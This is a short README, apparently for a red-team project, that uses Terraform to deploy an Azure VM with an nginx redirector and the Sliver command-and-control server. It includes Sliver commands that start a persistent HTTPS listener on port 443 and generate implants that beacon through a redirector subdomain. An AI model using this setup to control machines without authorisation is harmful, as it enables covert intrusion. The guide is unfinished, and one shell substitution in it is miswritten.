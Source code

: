 # Using Terraform to build a vm running nginx and sliver in Azure
To run use the following commands:

```
az login
cd azure-silver
terraform init
export PUBLIC_IP=$(curl -s ifconfig.me)
terraform plan -var="my_ip=$PUBLIC_IP"
terraform apply -var="my_ip=$PUBLIC_IP" && terraform output
```

Then get the public IP of the VM and login:
```
az vm show --resource-group <YourResourceGroupName> --name <YourVMName> --query 'networkProfile.networkInterfaces[].id' -o tsv
az network nic show --ids <NetworkInterfaceId> --query 'ipConfigurations[].publicIpAddress.id' -o tsv

export VMIP=${terraform output public_ip}
ssh azureadmin@$VMIP

echo "sliver"
echo "https --cert /etc/letsencrypt/live/$C2_SUBDOMAIN/cert.pem --key /etc/letsencrypt/live/$C2_SUBDOMAIN/privkey.pem --domain $C2_SUBDOMAIN --lhost 0.0.0.0 --lport 443 --persistent"
echo "generate --http $REDIRECTOR_SUBDOMAIN/content --http $REDIRECTOR_SUBDOMAIN/assets"
```
To configure the nginx CDN path you will need to get the storage account path:
- *I highly reccomend using [Azure SE](https://azure.microsoft.com/en-us/products/storage/storage-explorer) to manage files on the storage account.*
```
az storage container show --name <container-name> --account-name <storage-account-name> --account-key <your-account-key> --query "url" --output tsv
```


To delete everything:
`terraform destroy`


# TODO:
1. install and run sliver with certificate
3. mount storage account to vm
